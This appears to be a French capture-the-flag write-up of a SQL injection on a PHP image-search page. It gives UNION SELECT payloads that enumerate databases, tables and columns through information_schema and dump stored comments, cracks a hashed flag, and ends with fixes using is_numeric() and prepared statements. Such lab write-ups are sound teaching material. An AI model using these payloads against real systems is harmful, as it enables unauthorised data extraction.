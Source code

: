 EXPLAIN : http://{host}/index.php?page=searchimg

$> true
Nous renvoie l'image id 1
Donc les requetes ne sont pas parsees

Le nom de la base de donnees
$> true union select 1, database()

Le nom des tables
$> true union select 1, table_name from information_schema.tables where table_schema=database()

Les noms des colonnes
$> true union select table_name, column_name from information_schema.columns where table_schema=database()

+-------------+
| list_images |
+-------------+
| id          |
| url         |
| title       |
| comment     |
+-------------+

Le contenu
true union select 1, comment from list_images
If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
albatroz -> f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

AVOID
+ Verifier le parametre envoye. En php, is_numeric()
+ Utiliser des requetes preparees
<?php
	$stmt = $db->prepare("SELECT * FROM list_images where id = ?");
	$stmt->execute([$_GET['id']]);
?>
Ainsi si on met "true", la requete cherchera literalement un id "true", qui n'existe pas.

